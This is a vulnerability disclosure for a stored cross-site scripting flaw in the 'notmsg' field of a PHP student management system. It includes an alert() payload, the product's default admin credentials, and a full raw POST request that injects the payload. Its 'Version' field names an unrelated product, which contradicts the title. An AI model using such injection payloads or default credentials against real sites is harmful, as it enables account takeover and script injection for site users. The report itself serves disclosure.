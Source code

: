 # Online student management system  - 'notmsg' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Online student management system  - 'notmsg' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=16137&title=Online+student+management+system+in+php+free+download
#### Version: Badminton Center Management System
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online student management system s' does not filter the content correctly at the "notmsg" module, resulting in the generation of stored XSS.

#### Payload used:

`<img src="" onerror="alert(111111111)">`

#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:

   Username : mayurik
   Password : rootadmin

   

2. Open Page http://192.168.67.10/manage-students.php, Click the button to jump to the editing page.

   ![image-20231218171443708](img/Online student management system(XSS) 2/image-20231218171443708.png)

   http://192.168.67.10/edit-student-detail.php?editid=1

   ![image-20231218171500707](img/Online student management system(XSS) 2/image-20231218171500707.png)

   

   

3. Put XSS payload   in the "notmsg"  ;

   send package

   

   ```
   POST /edit-public-notice-detail.php?editid=1 HTTP/1.1
   Host: 192.168.67.10
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: multipart/form-data; boundary=---------------------------229580367932215906372765851428
   Content-Length: 467
   Origin: http://192.168.67.10
   Connection: close
   Referer: http://192.168.67.10/edit-public-notice-detail.php?editid=1
   Cookie: PHPSESSID=41k6lb8lgvu5aiq908id5u1qgh
   Upgrade-Insecure-Requests: 1
   
   -----------------------------229580367932215906372765851428
   Content-Disposition: form-data; name="nottitle"
   
   water supply unviability 
   -----------------------------229580367932215906372765851428
   Content-Disposition: form-data; name="notmsg"
   
   `<img src="" onerror="alert(111111111)">`
   -----------------------------229580367932215906372765851428
   Content-Disposition: form-data; name="submit"
   
   
   -----------------------------229580367932215906372765851428--
   
   
   ```
   
   
   
   


4. back to http://192.168.67.10/edit-public-notice-detail.php?editid=1 We can see the alert.;

   ![image-20231218171034851](img/Online student management system(XSS) 2/image-20231218171034851.png)

   


